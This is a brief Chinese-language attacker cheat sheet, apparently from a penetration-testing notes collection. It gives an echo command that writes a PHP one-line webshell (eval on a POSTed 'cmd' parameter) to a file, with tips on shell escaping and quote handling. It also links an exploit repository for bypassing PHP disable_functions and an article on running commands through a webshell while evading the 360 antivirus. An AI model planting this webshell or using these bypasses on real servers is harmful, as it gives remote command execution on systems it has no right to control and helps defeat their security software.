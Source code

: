 # 01、echo写入php一句话木马
```
echo "<?php eval(\$_POST['cmd']);?>">1.php
```
1.php内容如下
```
<?php eval($_POST['cmd']);?>
```
#### 注意1
经过在burp下测试及bash下测试发现，执行如下命令后
```
echo "<?php eval($_POST['cmd']);?>">1.php
```
1.php的内容如下
```
<?php eval(['cmd']);?>
```
#### 注意2
windows下echo "bbb">3.txt时，会将双引号带入文件内容，linux下echo "bbb">3.txt时，不会将双引号带入文件内容。

# 02、php绕过disable_functions
```
https://github.com/mm0r1/exploits/tree/master/php-filter-bypass
```

# 03、webshell下绕过360执行命令
```
Webshell绕过360主动防御执行命令
https://mp.weixin.qq.com/s/OGwo1zoN1LS3aYalZ_PePw
```